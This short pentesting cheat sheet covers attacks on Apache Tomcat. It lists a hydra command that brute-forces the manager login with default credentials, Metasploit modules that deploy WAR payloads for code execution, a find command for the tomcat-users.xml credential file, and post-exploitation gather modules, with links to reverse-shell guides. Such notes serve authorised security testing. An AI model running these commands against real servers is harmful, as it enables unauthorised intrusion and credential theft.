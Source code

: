 # Apache Tomcat

`$ hydra -C Seclists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt http-get://<IP>:<PORT>/manager/html`

```
msf > exploit/multi/http/tomcat_mgr_deploy

msf > use exploit/multi/http/tomcat_mgr_upload
```

https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/multi/http/tomcat_mgr_deploy.md

https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/multi/http/tomcat_mgr_upload.md

https://vk9-sec.com/apache-tomcat-manager-war-reverse-shell/

`$ find -name tomcat-users.xml 2>/dev/null`

`meterpreter > run post/windows/gather/enum_tomcat`

`msf > use post/multi/gather/tomcat_gather`

https://viperone.gitbook.io/pentest-everything/everything/ports/ports-8080-8180-apache-tomcat

https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/post/multi/gather/tomcat_gather.md

---
## References

https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat

https://charlesreid1.com/wiki/Metasploitable/Apache/Tomcat_and_Coyote